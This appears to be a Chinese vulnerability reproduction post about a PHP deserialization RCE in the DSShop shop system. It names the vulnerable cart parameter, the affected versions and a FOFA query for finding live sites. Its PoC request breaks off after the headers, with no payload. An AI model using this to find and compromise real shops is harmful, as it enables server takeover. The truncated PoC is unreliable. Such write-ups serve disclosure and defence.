

# DSShop移动商城网店系统 反序列化RCE漏洞复现

### 0x01 产品简介

   DSShop是长沙德尚网络科技有限公司推出的一款单店铺移动商城网店系统，能够帮助企业和个人快速构建手机移动商城,并减少二次开发带来的成本。  
以其丰富的营销功能，精细化的用户运营，解决电商引流、推广难题，帮助企业打造生态级B2C盈利模式商业平台。完备的电商功能，为企业提升了行业电商品牌的美誉度。系统安全、稳定、快速，便捷的功能扩展及可以进行二次开发的多用户商城源码，为企业电商业务长线快速发展提供了强有力的保障。 适用企业：各类百货MALL、行业实体市场、电商产业园、行业协会、行业门户网站等。

### 0x02 漏洞概述

  DSShop单店铺移动商城网店系统的getCartList方法的cart参数存在php反序列化漏洞，攻击者可以通过漏洞执行任意代码，获取服务器权限。

### 0x03 影响范围

DSShop <=V2

### 0x04 复现环境

FOFA：title="德尚商城 - 程序来源于德尚网络"



### 0x05 漏洞复现 

PoC

```cobol
POST /index.php?s=home/article/index HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
C
```
